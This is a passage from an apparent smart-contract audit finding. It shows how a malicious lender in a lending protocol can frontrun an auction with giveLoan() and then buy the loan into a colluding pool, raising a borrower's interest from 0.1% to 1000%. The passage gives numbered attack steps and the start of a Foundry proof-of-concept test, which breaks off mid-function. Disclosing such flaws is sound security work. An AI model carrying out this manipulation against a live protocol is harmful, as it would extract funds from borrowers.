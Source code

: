 5. Now, the malicious lender can call `buyLoan()` and assign the loan to a malicious pool which has an maximum possible interest.
6. The borrower loan interest has increased by a malicious lender.

I created a test where the malicious lender1 increments the loan interest rate from 0.1% to 1000%. Test steps:

1. `Lender1` creates a pool with 1000 balance, 0.1% interest rate and auction length 1 days.
   Borrower borrows 100 debt and put 100 collateral.
2. `Lender1` starts an auction
3. There is an interested pool in buying the loan but `Lender1` frontrun an restart the
   auction via giveLoan(), so the loan is not possible to buy.
4. Auction is restarted. Debt is the same 100 tokens, collateral balance is the same 100 tokens
   and Pool balance is the same 900 tokens. 
5. It is not possible to buy the loan since the auction was restarted in the step 3.
6. `Lender1` creates a malicious pool in coalition with a malicious actor.
   The malicious pool will have the maximum interest 1000%. This new pool can be a pool from the same lender using
   another private key.
7. `Lender1` starts the auction again and warp to the end of the auction.
8. `Lender1` buys the auctioned loan to his malicious pool. Now the loan has a 1000% interest.
   The lender1 maliciously increments the loan interest.

```solidity
// test/Lender.t.sol:LenderTest
// $ forge test --match-test "test_malicious_lender_can_increment_loan_interest" -vvv
    function test_malicious_lender_can_increment_loan_interest() public {
        // Malicious lender can increment the loan interest using the auction process
        // 1. Lender1 creates a pool with 1000 balance, 0.1% interest rate and auction length 1 days.
        //    Borrower borrows 100 debt and put 100 collateral.
        // 2. Lender1 starts an auction
        // 3. There is an interested pool in buying the loan but Lender1 frontrun an restart the
        //    auction via giveLoan(), so the loan is not possible to buy.
        // 4. Auction is restarted. Debt is the same 100 tokens, collateral balance is the same 100 tokens
        //    and Pool balance is the same 900 tokens. 
        // 5. It is not possible to buy the loan since the auction was restarted in the step 3.
        // 6. Lender1 creates a maliciouspool in coalition with a malicious actor.
        //    The malicious pool will have the maximum interest 1000%. This new pool can be a pool from the same lender using
        //    another private key.
        // 7. Lender1 starts the auction again and warp to the end of the auction.
        // 8. Lender1 buy the auctioned loan to his malicious pool. Now the loan has a 1000% interest.
        //    The lender1 maliciously increments the loan interest.
        address attacker = address(1337);
        loanToken.mint(address(attacker), 100000*10**18);
        collateralToken.mint(address(attacker), 100000*10**18);
        //
        // 1. Lender1 creates a pool with 1000 balance, 0.1% interest rate and auction length 1 days.
        //    Borrower borrows 100 debt and put 100 collateral.
        //
        test_borrow();
        bytes32 poolIdLender1 = lender.getPoolId(lender1, address(loanToken), address(collateralToken));
        // assert loan debt, loan collateral and final pool balance
        (,,,,uint256 poolBalance,,,,) = lender.pools(poolIdLender1);
        (,,,,,uint256 collaterlLoan,uint256 newLoanInterestRate,,,) = lender.loans(0);
        assertEq(lender.getLoanDebt(0), 100 * 10**18);
        assertEq(collaterlLoan, 100 * 10**18);
        assertEq(newLoanInterestRate, 1000); // Loan interest 0.1%
        assertEq(poolBalance, 900 * 10**18); // 1000 pool balance - 100 loan debt
        //
```